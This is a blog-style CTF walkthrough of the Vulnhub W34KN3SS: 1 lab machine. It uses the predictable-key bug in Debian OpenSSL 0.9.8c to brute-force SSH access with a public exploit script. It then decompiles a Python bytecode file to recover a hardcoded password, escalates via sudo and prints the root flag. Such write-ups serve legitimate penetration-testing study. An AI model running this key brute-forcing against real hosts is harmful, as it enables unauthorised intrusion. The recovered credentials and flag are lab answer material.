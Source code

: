 ```yaml
---
layout: post
title:  "Vulnhub - W34KN3SS: 1"
date:   2020-11-18 21:00:00 +1100
category: hacking
---
```


## Introduction
*The matrix is controlling this machine, neo is trying to escape from it and take back the control on it , your goal is to help neo to gain access as a “root” to this machine , through this machine you will need to perform a hard enumration on the target and understand what is the main idea of it , and exploit every possible “weakness” that you can found , also you will be facing some upnormal behaviours during exploiting this machine.*

*This machine was made for Jordan’s Top hacker 2018 CTF , we tried to make it simulate a real world attacks “as much as possible” in order to improve your penetration testing skills , also we but a little tricky techniques on it so you can learn more about some unique skills.*

*Difficulty: Intermediate , you need to think out of the box and collect all the puzzle pieces in order to get the job done.*

This box is on the [NetSecFocus Admin list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) of OSCP-like machines. It's [W34KN3SS: 1](https://www.vulnhub.com/entry/w34kn3ss-1,270/) from vulnhub. It's got a mild Matrix theme.

## Ports
This box has SSH, HTTP and HTTPS on the standard ports (22, 80 and 443). A detail scan, or viewing the SSL certificate, gives some useful information:

>Organization weakness.jth  
Common Name weakness.jth  
Email Address n30@weakness.jth

I add weakness.jth to */etc/hosts*.

## HTTP/HTTPS and hints
I enumerate the webservices with gobuster and turn up some things:

At https://192.168.1.106/test/ we get a meme with some text:

>it's all about keys :D

At http://weakness.jth/ we get a message from *n30* - same user as in the email address on the SSL certificate.

At http://weakness.jth/private/ we find an SSH public key and a note, with the text:

>this key was generated by openssl 0.9.8c-1

## OpenSSL
This version of OpenSSL had a [bug](https://github.com/g0tmi1k/debian-ssh) that reduced the available keyspace:

> When creating a new OpenSSH key, there are only 32,767 possible outcomes for a given architecture, key size, and key type.

This means that we can try all possible keys to see if one works, hence the hint about needing lots of keys. I used the python exploit code from searchsploit:

``
root@kali:/opt/vulnhub/w34kn3ss# python 5720.py ./5622/rsa/2048/ 192.168.1.106 root 22 5
``

Which found a working key for our user *n30*:

{% highlight shell %}
Key Found in file: 4161de56829de2fe64b9055711f531c1-2537
Execute: ssh -ln30 -p22 -i ./5622/rsa/2048//4161de56829de2fe64b9055711f531c1-2537 192.168.1.106

Tested 3429 keys | Remaining 29339 keys | Aprox. Speed 15/sec
# ssh -ln30 -p22 -i ./5622/rsa/2048//4161de56829de2fe64b9055711f531c1-2537 192.168.1.106
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
New release &apos;20.04.1 LTS&apos; available.
Run &apos;do-release-upgrade&apos; to upgrade to it.

Last login: Tue Aug 14 13:29:20 2018 from 192.168.209.1
{% endhighlight %}

## Privesc
Our user *n30* is a member of the sudo group and in his home directory is an interesting file called *code*. The file is a compiled python script:

{% highlight shell %}
n30@W34KN3SS:~$ file code
code: python 2.7 byte-compiled
{% endhighlight %}

If we run it, we get this:

{% highlight shell %}
n30@W34KN3SS:~$ which python
/usr/bin/python
n30@W34KN3SS:~$ python code
[+]System Started at : Wed Nov 18 12:28:29 2020
[+]This binary should generate unique hash for the hardcoded login info
[+]Generating the hash ..
[+]Your new hash is : 9d3318d8beb128b1c85c9590fbf12c695b4a23ad7040492f67b59d4c4c28f858
[+]Done
{% endhighlight %}

Did someone say hardcoded login info?

## Uncompyle
I copy the binary over to kali and try to run *uncompyle6* on it; that's failing for some reason. There is something going on with python versions but it's not immediately clear what. Instead what I do is setup a python virtual environment, clone the *uncompyle2* repo from [GitHub](https://github.com/wibiti/uncompyle2) into it and then decompile the file there so I've got no mix ups with versions. The sequence of commands was broadly this (taken from my bash history):

{% highlight shell %}
2038  apt-get install python3-venv
2067  mkdir uncompyle2
2068  cd uncompyle2
2069  git clone https://github.com/wibiti/uncompyle2 .
2071  virtualenv -p /usr/bin/python2.7 venv2
2072  source venv2/bin/activate
2073  ls
2074  python setup.py install
2075  uncompyle2 /opt/vulnhub/w34kn3ss/code
2076  uncompyle2 /opt/vulnhub/w34kn3ss/code > out
2077  ls
2078  file out
2079  cat out
{% endhighlight %}

So what's in *out*? Effectively it's our credentials, with some other stuff that's not important:

>n30:dMASDNB!!#B!#!#33

## Privesc
With our credentials and being a member of the sudo group it's game over:

{% highlight shell %}
n30@W34KN3SS:~$ sudo su
[sudo] password for n30: 
root@W34KN3SS:/home/n30# cd /root
root@W34KN3SS:~# ls -lash
total 44K
4.0K drwx------  4 root root 4.0K Aug 14  2018 .
4.0K drwxr-xr-x 22 root root 4.0K May  5  2018 ..
4.0K -rw-------  1 root root    6 Aug 14  2018 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
4.0K drwx------  2 root root 4.0K Aug 14  2018 .cache
4.0K drwxr-xr-x  3 root root 4.0K May  5  2018 .local
4.0K -rw-------  1 root root  114 May  5  2018 .mysql_history
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-------  1 root root 1.0K May  5  2018 .rnd
4.0K -rw-r--r--  1 root root   33 May  8  2018 root.txt
4.0K -rw-r--r--  1 root root   66 Aug 14  2018 .selected_editor
root@W34KN3SS:~# cat root.txt
a1d2fab76ec6af9b651d4053171e042e
{% endhighlight %}

Goodbye, Mr Anderson.
